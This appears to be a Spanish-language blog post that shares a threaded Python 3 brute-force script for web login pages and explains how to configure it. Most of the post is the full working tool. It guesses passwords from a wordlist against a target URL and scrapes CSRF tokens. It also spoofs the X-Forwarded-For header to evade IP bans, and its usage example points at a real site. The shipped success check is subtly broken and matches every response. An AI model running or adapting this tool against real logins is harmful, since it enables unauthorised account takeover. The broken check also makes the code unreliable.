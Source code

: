 # Brute-Force Login With Threads

# [https://pastebin.com/9gW4iGkJ](https://pastebin.com/9gW4iGkJ)

![Untitled](/assets/images/Brute-Force-Login-With-Threads/Untitled.png)

He realizado este script ya que he estado investigando un poco y me parecía que no habían muchos scripts en python3 que realicen fuerza bruta a un login, por eso he decidido compartirlo con vosotros.

Primero que nada os voy a comentar un poco lo que hace este script y como debéis de usarlo ya que no funciona para cualquier pagina, actualmente en esta “version” únicamente funciona contra paginas que tengan o no tengan un tokenCSRF, en caso de que no lo tengan implementado y unicamente se tramite por POST el “username” y el “password” tenéis que cambiar la configuración del script de esta forma:

```python
#Extraccion del token anti-csrf
        #token = re.findall(r'id="jstokenCSRF" name="tokenCSRF" value="(.*?)"', r.text)[0]
        post_data = {
            #'tokenCSRF': '%s' % token,
            'username' : '%s' % username,
            'password' : '%s' % password,
            'save': ''
        }
```

También tenéis que configurar la respuesta del lado del servidor para comprobar si la contraseña es correcta o no lo es, para ello realizareis una petición con unas credenciales incorrectas y veréis el típico error al fallar las credenciales como por ej: “Invalid credentials”, sabiendo la respuesta del lado del servidor configurareis el script de la siguiente forma:

```python
#Configuracion de la respuesta del servidor para averiguar la contraseña
        if "Invalid credentials" not in r.text:
            print(Color.BLUE + "\n\nLa contraseña es: " + Color.YELLOW + "%s" % password)
            executor.shutdown(wait=False, cancel_futures=True)
            sys.exit(1)
        else:
            pass
```

Por mi experiencia en la creación del script recomiendo no usar mas de 2 hilos de velocidad (esta puesto 2 hilos por defecto), ya que estos tipos de ataques dependen mucho de la velocidad de respuesta del servidor web, y si le metemos muchos hilos va a ir muy rápido pero no le dará tiempo a comprobar si la contraseña es correcta o no. Todo depende de la velocidad del servidor.

Os dejo por aquí también el script:

```python
#!/usr/bin/python3
# -*- coding: utf-8 -*-
 
import requests
from pwn import *
import urllib3
import mmap
import argparse
 
from concurrent.futures import ThreadPoolExecutor
  
# CTRL+C
def def_hundler(sig, frame):
    print(Color.RED + "[!]Saliendo..")
    exit(1)
signal.signal(signal.SIGINT, def_hundler) 
 
#Colores
class Color:
    CYAN = '\033[96m'
    BLUE = '\033[94m'
    GREEN = '\033[92m'
    YELLOW = '\033[93m'
    RED = '\033[91m'
    END = '\033[0m'
#Funciones
def usage():
    fNombre = os.path.basename(__file__)
    ussage = fNombre + ' [-h] -url <URL> [-u USERNAME] [-w DICCIONARIO] [-t HILOS]\n\n'
    ussage += '[+] Examples:\n'
    ussage += '\t' + fNombre + ' -url https://google.com/login -u admin -w /usr/share/wordlists/rockyou.txt -t 2\n'
    return ussage
 
def arguments():
    parse = argparse.ArgumentParser(usage=usage(), description="Python3 Brute-Force login with threads")
    parse.add_argument('-u', dest='username', type=str, default='', help='Usuario a reventar')
    parse.add_argument('-w', dest='diccionario', type=str, default='', help='Diccionario a usar')
    parse.add_argument('-url', dest='url', type=str, help='URL del login')
    parse.add_argument('-t', dest='threads', type=int, default='2', help='Hilos (Velocidad), Default -> [2]')
    return parse.parse_args()
 
#Funcion para sacar el numero de palabras de un diccionario 
def get_num_lines(diccionario):
    fp = open(diccionario, "r+")
    buf = mmap.mmap(fp.fileno(), 0)
    lines = 0
    while buf.readline():
        lines += 1
    return lines
 
 
def do_login(s, url, username, password, executor, count, total):
 
    try:
        r = s.get(url)
        #Extraccion del token anti-csrf
        token = re.findall(r'id="jstokenCSRF" name="tokenCSRF" value="(.*?)"', r.text)[0]
        post_data = {
            'tokenCSRF': '%s' % token,
            'username' : '%s' % username,
            'password' : '%s' % password,
            'save': ''
        }
        headers_data = {
            #Bypass IP-BAN
            'X-Forwarded-For': '%s' % password,
            'User-Agent': 'Mozilla/5.0 (X11; Linux x86_64; rv:78.0) Gecko/20100101 Firefox/78.0',
        }
#        proxy = {"http": "http://127.0.0.1:8080", "https": "http://127.0.0.1:8080"}
        r = s.post(url, data=post_data, headers=headers_data, allow_redirects = True)
        p1.status(Color.BLUE + "Intentando con la contraseña" + Color.RED + " [%d/" %count + "%d] ==>" %total + Color.GREEN + " %s" %password)        
        #Configuracion de la respuesta del servidor para averiguar la contraseña
        if "" in r.text:
            print(Color.BLUE + "\n\nLa contraseña es: " + Color.YELLOW + "%s" % password)
            executor.shutdown(wait=False, cancel_futures=True)
            sys.exit(1)
        else:
            pass
 
    except Exception as e:
        print(e)
 
def main(url, username, diccionario, executor):
    try:
        urllib3.disable_warnings()
        s = requests.session()
        s.verify = False
        count = 0
        with open(diccionario, encoding='latin-1') as fp:
            for password in fp.read().splitlines():
                count += 1
                executor.submit(do_login, s, url, username, password, executor, count, total)
    except Exception as e:
        print(e)
 
if __name__ == '__main__':
    print(Color.CYAN + """
██████╗ ██████╗ ██╗   ██╗████████╗███████╗    ███████╗ ██████╗ ██████╗  ██████╗███████╗██████╗ 
██╔══██╗██╔══██╗██║   ██║╚══██╔══╝██╔════╝    ██╔════╝██╔═══██╗██╔══██╗██╔════╝██╔════╝██╔══██╗
██████╔╝██████╔╝██║   ██║   ██║   █████╗█████╗█████╗  ██║   ██║██████╔╝██║     █████╗  ██████╔╝
██╔══██╗██╔══██╗██║   ██║   ██║   ██╔══╝╚════╝██╔══╝  ██║   ██║██╔══██╗██║     ██╔══╝  ██╔══██╗
██████╔╝██║  ██║╚██████╔╝   ██║   ███████╗    ██║     ╚██████╔╝██║  ██║╚██████╗███████╗██║  ██║
╚═════╝ ╚═╝  ╚═╝ ╚═════╝    ╚═╝   ╚══════╝    ╚═╝      ╚═════╝ ╚═╝  ╚═╝ ╚═════╝╚══════╝╚═╝  ╚═╝ 
        """)
    args = arguments()
    total = get_num_lines(args.diccionario)
    p1 = log.progress(Color.BLUE + "Fuerza Bruta sobre el usuario :" + Color.RED + " %s" % args.username)    
    executor = ThreadPoolExecutor(args.threads)
    main(args.url, args.username, args.diccionario, executor)
```